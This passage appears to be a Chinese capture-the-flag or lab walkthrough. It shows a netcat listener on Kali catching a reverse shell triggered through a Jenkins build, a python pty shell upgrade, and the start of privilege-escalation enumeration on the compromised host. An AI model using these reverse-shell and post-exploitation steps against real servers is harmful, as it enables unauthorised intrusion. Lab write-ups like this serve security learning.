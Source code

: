 - kali开启监听
    
    ```php
    nc -lvp 1234
    //            
    listening on [any] 1234 ...
    ```
    
- 在Jenkins里面点击构建，就会执行刚刚输入的代码
- 成功获得shell
    
    ```php
    nc -lvp 1234
    listening on [any] 1234 ...
    192.168.75.135: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.135] 54884
    
    python -c "import pty;pty.spawn('/bin/bash')" // 获得交互shell
    bash-4.2$ ls
    ls
    bash-4.2$ 
    
    ```
    

## 提权

- 查看通过Jenkins后台获得的shell权限
    
    ```php
    bash-4.2$ whoami
    jenkins
    //
    bash-4.2$ sudo -l
    We trust you have received the usual lecture from the local System
    Administrator. It usually boils down to these three things:
    
        #1) Respect the privacy of others.
        #2) Think before you type.
        #3) With great power comes great responsibility.
    
    [sudo] password for jenkins: ^C //要密码
    //                                                                                           
    bash-4.2$ uname -a
    Linux jarbas 3.10.0-693.21.1.el7.x86_64 #1 SMP Wed Mar 7 19:03:37 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    //
    bash-4.2$ ls -l
    total 0
    //
    bash-4.2$ dpkg -l
    bash: dpkg: command not found
    ```
    
    权限不高不低
    